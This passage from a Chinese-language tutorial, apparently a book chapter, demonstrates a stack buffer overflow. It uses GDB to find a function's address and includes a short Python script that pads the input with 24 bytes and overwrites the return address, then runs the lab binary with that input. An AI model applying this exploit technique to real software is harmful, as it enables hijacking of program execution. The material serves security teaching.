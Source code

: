 现在，通过查看错误，我们可以在其中看到注入的`b`字符。在这一点上，我们做得很好。现在我们知道了我们的注入形式，让我们尝试使用`disassemble`命令执行`letsprint`函数：

```
$ disassemble letsprint
```

在以下屏幕截图中可以看到前面命令的输出：

![](../images/00238.jpeg)

我们在`letsprint`函数中得到了第一条指令，`push rbp`的地址为`0x00000000004005e3`，真正的地址就是我们在这里需要的地址；我们也可以通过`print`命令获取地址：

```
$ print letsprint
```

在以下屏幕截图中可以看到前面命令的输出：

![](../images/00239.jpeg)

现在我们有了地址，让我们尝试使用 Python 构建我们的漏洞，因为我们无法直接传递地址：

```
#!/usr/bin/python
from struct import *

buffer = ''
buffer += 'a'*24
buffer += pack("<Q", 0x0000004005e3)
f = open("input.txt", "w")
f.write(buffer)
```

然后，我们执行它以生成新的输入：

```
$ ./exploit
```

现在，从 GDB 内部运行以下命令：

```
$ run $(cat input.txt)
```

然后，它将到达断点：

![](../images/00240.jpeg)

点击*C*，然后*进入*继续：

![](../images/00241.jpeg)

我们做到了！现在，让我们通过 shell 而不是 GDB 来确认：

```
$ ./buffer $(cat input.txt)
```
